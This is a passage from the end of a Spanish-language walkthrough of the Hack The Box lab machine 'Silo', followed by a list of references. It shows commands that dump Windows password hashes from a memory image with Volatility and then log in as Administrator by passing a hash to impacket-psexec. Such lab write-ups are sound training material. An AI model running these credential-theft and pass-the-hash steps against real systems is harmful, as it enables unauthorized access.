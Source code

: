 Haciendo uso del plugin `hashdump` se pueden obtener los hashes del sistema, exponiendo de esta manera una forma de acceder a la máquina como el usuario Administrator. Por medio de:

```bash
./volatility_2.6_lin64_standalone -f /home/srrequiem/Documents/htb/windows/medium/silo/content/SILO-20180105-221806.dmp --profile=Win2012R2x64 hashdump
```

![Obtención de hashes](images/post_7.png)

Obteniendo acceso haciendo uso del hash con:

```bash
impacket-psexec Administrator@10.10.10.82 -hashes :9e730375b7cbcebf74ae46481e07b0c7
```

![Acceso como Administrator](images/post_8.png)

## Referencias

- [Hack Tricks - Pentesting Oracle TNS Listener](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener).
- [odat.py](https://github.com/quentinhardy/odat).
- [0xdf Write-up](https://0xdf.gitlab.io/2018/08/04/htb-silo.html).
- [Ippsec Walkthrough](https://www.youtube.com/watch?v=2c7SzNo9uoA).
- [PayloadAllTheThings - JuicyPotato](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#juicy-potato-abusing-the-golden-privileges).
- [Binarios Juicy Potato](https://github.com/ohpe/juicy-potato/releases).
- [Releases Volatility](https://www.volatilityfoundation.org/releases).
- [Github Volatility](https://github.com/volatilityfoundation/volatility).